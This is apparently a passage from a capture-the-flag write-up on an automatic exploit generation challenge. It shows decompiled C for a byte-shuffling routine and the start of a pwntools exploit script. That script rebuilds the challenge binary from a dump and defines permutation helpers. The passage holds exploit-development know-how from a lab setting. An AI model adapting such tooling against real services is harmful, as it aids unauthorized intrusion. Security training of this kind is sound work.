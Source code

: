 ```c
  for (local_220 = 0x172; local_220 < 0x200; local_220 = local_220 + 1) {
    auStack536[local_220] = *(undefined *)(param_1 + (long)(local_220 + -0x200) + 0x8e);
  }
  for (local_21c = 0; local_21c < 0x200; local_21c = local_21c + 1) {
    *(undefined *)(local_21c + param_1) = auStack536[local_21c];
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return;
}
```

That `0x172` is a value that changes with each binary.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

def getbinary(r):
    f = open('aeg2','wb')

    while True:
        _ = r.recvline()
        if b'0: ' in _:
            for i in _.split()[1:9]: f.write(int(i,16).to_bytes(2,'big'))
        if b'Binary' in _:
            ec = int(_.decode().strip().split()[-1],10)
            break

    f.close()
    return ec
```

`getbinary` does exactly that, undumps the dump into a binary.


```python
def p1(s,k): return s[::-1]

def p2(s,k): return s[0x100:] + s[:0x100]

def p3(s,k): return s[k:] + s[:k]

def p4(s,k): return s[k:] + s[:k]

def p5(s,k):
    for i in range(0,len(s),2): s[i], s[i+1] = s[i+1], s[i]
    return s

def p6(s,k):
    for i in range(0,len(s),k): s[i:i+k] = [s[i+k-1]] + s[i:i+k-1]
    return s

def p7(s,k):
    for i in range(0,len(s),k): s[i:i+k] = s[i+1:i+k] + [s[i]]
    return s

def p8(s,k):
    for i in range(0,len(s),k): s[i:i+k] = s[i:i+k][::-1]
    return s
```